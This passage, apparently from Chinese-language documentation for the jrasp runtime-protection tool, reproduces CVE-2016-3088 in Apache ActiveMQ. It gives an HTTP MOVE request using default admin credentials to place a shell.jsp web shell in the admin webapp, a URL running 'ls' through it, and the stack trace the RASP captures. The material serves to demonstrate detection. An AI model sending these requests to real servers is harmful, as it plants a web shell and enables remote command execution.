 ```
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:///Users/xxxx/soft/apache-activemq-5.10.1/webapps/admin/shell.jsp
Host: localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 19


Content-Length: 1
```
测试时请修改上面的`Destination`参数


### 访问请求触发漏洞

![img.png](../.vuepress/public/images/case/CVE-2016-3088/CVE-2016-3088-result.png)

http://localhost:8161/admin/shell.jsp?cmd=ls

## RASP防护

安装jrasp之后,再次触发请求

RASP 拦截到的调用栈
```
{
    "cmdArray":[
        "ls"
    ],
    "isBlocked":false,
    "stackTrace":[
	"java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
	"java.lang.ProcessImpl.start(ProcessImpl.java:134)",
	"java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
	"java.lang.Runtime.exec(Runtime.java:621)",
	"java.lang.Runtime.exec(Runtime.java:451)",
	"java.lang.Runtime.exec(Runtime.java:348)",
	"org.apache.jsp.shell_jsp._jspService(org.apache.jsp.shell_jsp:62)",
	"org.apache.jasper.runtime.HttpJspBase.service(HttpJspBase.java:109)",
	"javax.servlet.http.HttpServlet.service(HttpServlet.java:806)",
	"org.apache.jasper.servlet.JspServletWrapper.service(JspServletWrapper.java:389)",
	"org.apache.jasper.servlet.JspServlet.serviceJspFile(JspServlet.java:486)",
	"org.apache.jasper.servlet.JspServlet.service(JspServlet.java:380)",
	"javax.servlet.http.HttpServlet.service(HttpServlet.java:806)",
	"org.eclipse.jetty.servlet.ServletHolder.handle(ServletHolder.java:652)",
	"org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1320)",
	"org.springframework.web.filter.RequestContextFilter.doFilterInternal(RequestContextFilter.java:99)",
```